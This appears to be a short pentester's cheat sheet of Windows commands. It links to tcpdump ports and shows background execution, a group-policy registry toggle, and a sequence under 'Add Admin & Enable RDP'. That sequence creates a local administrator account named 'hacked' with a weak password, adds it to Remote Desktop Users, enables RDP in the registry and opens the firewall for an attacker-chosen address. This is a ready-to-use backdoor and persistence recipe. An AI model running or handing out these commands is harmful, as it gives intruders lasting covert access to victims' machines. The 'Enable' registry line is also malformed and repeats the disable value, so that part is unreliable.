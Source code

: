 ###############
Useful Commands
###############

* https://www.winpcap.org/windump/default.htm
* https://www.microolap.com/products/network/tcpdump/

Run Executable in Background
============================

.. code-block:: none

    start /B program

Disable/Enable Group Policy
===========================

Disable:

.. code-block:: none

    REG add "HKCU\Software\Policies\Microsoft\MMC{8FC0B734-A0E1-11D1-A7D3-0000F87571E3}" /v Restrict_Run /t REG_DWORD /d 1 /f

Enable:

.. code-block:: none

    REG add "HKCU\Software\Policies\Microsoft\MMC{8FC0B734-A0E1-11D1-A7D3-0000F87571E3}" /v Restrict_Run /0 REG_DWORD /d 1 /f

Add Admin & Enable RDP
======================

.. code-block:: none

    net user /add hacked Password1
    net localgroup administrators hacked /add
    net localgroup Administrateurs hacked /add (For French target)
    net localgroup "Remote Desktop Users" hacked /add
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
    netsh firewall set service type = REMOTEDESKTOP mode = ENABLE scope = CUSTOM addresses = 10.0.0.1
